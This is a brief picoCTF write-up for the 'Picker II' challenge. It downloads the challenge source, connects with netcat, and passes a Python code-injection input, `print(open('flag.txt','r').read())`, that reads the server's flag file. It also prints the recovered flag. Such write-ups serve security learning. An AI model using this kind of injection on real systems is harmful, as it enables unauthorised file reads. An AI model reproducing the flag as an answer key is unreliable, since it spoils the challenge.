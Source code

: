 ## Introducción.
Can you figure out how this program works to get the flag?Connect to the program with netcat:`$ nc saturn.picoctf.net 49844`The program's source code can be downloaded [here](https://artifacts.picoctf.net/c/522/picker-II.py).

1.-Can you do what `win` does with your input to the program?
## Descripción
```
──(kali㉿kali)-[~/p2]
└─$ wget -4 https://artifacts.picoctf.net/c/522/picker-II.py
--2024-11-26 01:24:12--  https://artifacts.picoctf.net/c/522/picker-II.py
Resolving artifacts.picoctf.net (artifacts.picoctf.net)... 3.161.55.64, 3.161.55.26, 3.161.55.61, ...
Connecting to artifacts.picoctf.net (artifacts.picoctf.net)|3.161.55.64|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3510 (3.4K) [application/octet-stream]
Saving to: ‘picker-II.py’

picker-II.py        100%[==================>]   3.43K  --.-KB/s    in 0s      

2024-11-26 01:24:13 (191 MB/s) - ‘picker-II.py’ saved [3510/3510]

                                                                               
┌──(kali㉿kali)-[~/p2]
└─$ nc saturn.picoctf.net 49844
==> print(open('flag.txt','r').read()) 
picoCTF{f1l73r5_f41l_c0d3_r3f4c70r_m1gh7_5ucc33d_0b5f1131}
'NoneType' object is not callable
                                                                               
┌──(kali㉿kali)-[~/p2]
└─$ 


```

## Solución 
picoCTF{f1l73r5_f41l_c0d3_r3f4c70r_m1gh7_5ucc33d_0b5f1131}